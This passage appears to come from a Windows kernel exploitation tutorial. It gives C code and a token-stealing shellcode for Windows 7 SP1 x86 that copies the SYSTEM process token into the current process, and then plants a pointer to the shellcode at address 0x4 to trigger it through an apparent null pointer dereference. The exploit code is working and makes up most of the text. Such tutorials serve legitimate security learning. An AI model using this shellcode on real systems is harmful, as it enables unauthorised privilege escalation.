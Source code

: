 if (ntStatus != 0) {
printf("Virtual Memory Allocation Failed: 0x%x\n", ntStatus);
CloseHandle(hDriver);
FreeLibrary(hNtdll);
return 1;
}

printf("Address allocated at: 0x%p\n", baseAddress);
printf("Allocated memory size: 0x%X\n", regionSize);
</pre>

Now we need to put a pointer to our shellcode into memory so that it will get called, we can use the same shellcode we used in part 2 but remove the stack cleanup lines to do this, add the following before main:
<pre>
// Windows 7 SP1 x86 Offsets
#define KTHREAD_OFFSET    0x124    // nt!_KPCR.PcrbData.CurrentThread
#define EPROCESS_OFFSET   0x050    // nt!_KTHREAD.ApcState.Process
#define PID_OFFSET        0x0B4    // nt!_EPROCESS.UniqueProcessId
#define FLINK_OFFSET      0x0B8    // nt!_EPROCESS.ActiveProcessLinks.Flink
#define TOKEN_OFFSET      0x0F8    // nt!_EPROCESS.Token
#define SYSTEM_PID        0x004    // SYSTEM Process PID

//shellcode from the stackoverflow exploit minus the stack clean up since it is unneeded.
VOID TokenStealingShellcodeWin7() {
	__asm {
		; initialize
			pushad; save registers state

			xor eax, eax; Set zero
			mov eax, fs:[eax + KTHREAD_OFFSET]; Get nt!_KPCR.PcrbData.CurrentThread
			mov eax, [eax + EPROCESS_OFFSET]; Get nt!_KTHREAD.ApcState.Process

			mov ecx, eax; Copy current _EPROCESS structure

			mov ebx, [eax + TOKEN_OFFSET]; Copy current nt!_EPROCESS.Token
			mov edx, SYSTEM_PID; WIN 7 SP1 SYSTEM Process PID = 0x4

		SearchSystemPID:
		mov eax, [eax + FLINK_OFFSET]; Get nt!_EPROCESS.ActiveProcessLinks.Flink
			sub eax, FLINK_OFFSET
			cmp[eax + PID_OFFSET], edx; Get nt!_EPROCESS.UniqueProcessId
			jne SearchSystemPID

			mov edx, [eax + TOKEN_OFFSET]; Get SYSTEM process nt!_EPROCESS.Token
			mov[ecx + TOKEN_OFFSET], edx; Copy nt!_EPROCESS.Token of SYSTEM
			; to current process
			popad; restore registers state
	}
}
</pre>

Now place the point to the shellcode at the right offset as we saw earlier:

<pre>
PVOID nullPointer = (PVOID)((ULONG)0x4);
*(PULONG)nullPointer = (ULONG) &TokenStealingShellcodeWin7;
</pre>
